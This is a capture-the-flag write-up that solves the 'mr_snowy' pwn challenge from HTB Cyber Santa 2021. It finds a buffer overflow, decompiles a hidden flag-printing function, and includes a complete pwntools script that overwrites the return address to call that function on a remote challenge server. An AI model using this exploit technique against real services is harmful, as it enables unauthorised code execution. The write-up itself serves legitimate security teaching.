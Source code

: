 The files that we got in order to solve this challenge were:
```
mr_snowy          flag.txt
```
---
## File inspection

The `flag.txt` file is clearly made for testing since opening it will show us its content as
```
HTB{f4k3_fl4g_4_t3st1ng}
```
\
***The file that we are most interested in is `mr_snowy`***\
\
In order to start working on this challenge, we need to inspect the file and see what we are dealing with. Since it is a `pwn` challenge, we can assume the given file is an ELF.
To make sure we run
```
file mr_snowy
```
which results in:
![result for running "file mr_snowy"](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/file_ss.png)\
From this we can see that the file is `not stripped` which is great news to us, meaning we can find a `main` function that hopefully will allow us to identify an exploit.

Next we want to see if there are any clues or maybe even the flag itself in the strings of the files so we run
```
strings mr_snowy
```
which results in a bunch of random strings, mostly useless with the exception of:
![interesting strings](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/strings_ss.png)\
This is perhaps a clue that there is a function within the file that calls `flag.txt` and further more potentially prints it out for us.

Now we already have an idea of what this challenge might want us to do, which is get to the function that prints out the flag and thus complete the challenge. But that would be too easy, wouldn't it?
Before we fire up `ghidra` and see what the deal is, we have two more things left to do. Checking the security of the file and running it.

```
checksec mr_snowy
```
which results in:\
![result of "checksec mr_snowy"](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/checksec_ss.png)\
Again, wonderful news! No PIE will make our life easier.

Now let's run it
```
chmod +x mr_snowy
./mr_snowy
```
![running it](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_1.png)\
\
We have two options. Choosing `2` will display\
![choosing 2](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_choosing_2.png)\
\
Hm.. wrong answer. Let's try `1`\
![choosing 1](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_choosing_1.png)\
\
Ok! Progress. Let's choose `2`\
![choosing 1 then 2](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_choosing_1_then_2.png)\
\
Uh oh, that wasn't the right choice. Let's go back and choose `1`\
![choosing 1 then 1](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/running_it_choosing_1_then_1.png)\
That did not work either... So that means that no matter what options you will choose, you cannot get the flag. There must be another answer to this.

---
## Buffer overflow

Whenever I see ELF files, I always try to see if I can overflow the buffer. Let's try to do that.
\
We will generate a string of 1000 which should be sufficient to test overflowing
```
pwn cyclic 1000
```
with the result
```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa
abtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadm
aadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaaf
gaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagya
agzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaais
aaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaaj
```
Now we will write that huge string instead of `1` or `2` in the first menu option

![buff overflow 1](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/buffer_overflow_1.png)\
It seems like it did not work\
\
Let's try the second menu\
![buff overflow 2](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/images/buffer_overflow_2.png)\
Bingo! `Segmentation fault` is what we wanted. It indicates that we were able to flow the buffer and now we can write a script to potentially exploit it.\
\
Before we do that, we just need to fire up `ghidra` and check the code quickly. I have my ghidra folder in `/opt/ghidra_10.0.4_PUBLIC/` so I will run
```
/opt/ghidra_10.0.4_PUBLIC/ghidraRun
```
\
We create a project quick and analyze `mr_snowy`. Indeed in the `functions` tab we can see `deactivate_camera` with the following source code:
```
void deactivate_camera(void)

{
  char acStack104 [48];
  FILE *local_38;
  char *local_30;
  undefined8 local_28;
  int local_1c;
  
  local_1c = 0x30;
  local_28 = 0x2f;
  local_30 = acStack104;
  local_38 = fopen("flag.txt","rb");
  if (local_38 == (FILE *)0x0) {
    fwrite("[-] Could not open flag.txt, please conctact an Administrator.\n",1,0x3f,stdout);
                    /* WARNING: Subroutine does not return */
    exit(-0x45);
  }
  fgets(local_30,local_1c,local_38);
  puts("\x1b[1;32m");
  fwrite("[+] Here is the secret password to deactivate the camera: ",1,0x3a,stdout);
  puts(local_30);
  fclose(local_38);
  return;
}
```
\
So this is the function that will print our flag, but inspecting the `main` we notice that it isn't called anywhere.
\

---
## The exploit
Thus the solution is this: ***we need to execute the function `deactivate_camera` by overflowing the buffer and returning to the address of the wanted function.***
\
In order to do this I wrote a [python script](https://github.com/andreea-511/CTF-writeups/blob/main/HTB_CyberSanta2021/mr_snowy/mr_snowy.py)\
\
***This code is based on [this template](https://github.com/Crypto-Cat/CTF/blob/main/pwn/official_template.py) created by [Crypto-Cat](https://github.com/Crypto-Cat)***
```
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter('>', '1')
    p.sendlineafter('>', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.read(p.corefile.rsp, 4))  # x86
    # ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset


# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Binary filename
exe = './mr_snowy'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(100))

#print(elf.functions)

# Start program
#io = process()
io = remote('138.68.174.27', 32009)

rop = ROP(elf)

# Build the payload
payload = flat (
    {offset: elf.functions.deactivate_camera}
)

# Send the payload
io.sendlineafter('>', '1')
io.sendlineafter('>', payload)

io.interactive()
```
\
Commenting
```
io = remote('138.68.174.27', 32009)
```
and uncommenting
```
io = process()
```
will allow us to run the script locally and see that it prints 
```
[+] Here is the secret password to deactivate the camera: HTB{f4k3_fl4g_4_t3st1ng}
```
and running it on the target prints our flag.


